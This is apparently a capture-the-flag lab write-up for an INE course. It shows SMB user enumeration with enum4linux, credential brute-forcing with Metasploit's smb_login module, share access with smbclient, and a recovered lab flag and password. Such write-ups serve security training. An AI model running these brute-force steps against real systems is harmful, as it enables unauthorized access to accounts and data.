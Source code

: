 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use enumeration and brute-force attacks to obtain SMB credentials. Then, access the authenticated share to extract a hidden flag.

---

## Tools Used

- `enum4linux` – for user enumeration
- `Metasploit` – for brute force with SMB login module
- `smbclient` – for accessing SMB shares

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Enumerate Users with `enum4linux`

We start by using `enum4linux` to enumerate valid users on the SMB service.

```bash
enum4linux -a target.ine.local
```
![Step 1](./7.png)

The tool successfully identified local users:
- `josh`
- `bob`
- `nancy`
- `alice`

![Step 1](./8.png)

### 🔹 Step 2: Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```
![Step 2](./1.png)

### 🔹 Step 3: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```
![Step 3](./2.png)

### 🔹 Step 4: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```
![Step 4](./3.png)

### 🔹 Step 5: Valid Credentials Found
```yaml
josh : purple
```
![Step 5](./4.png)

### 🔹 Step 6: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```
![Step 6](./5.png)

### 🔹 Step 7: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.
![Step 7](./6.png)

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 8.png (steps of the challenge)
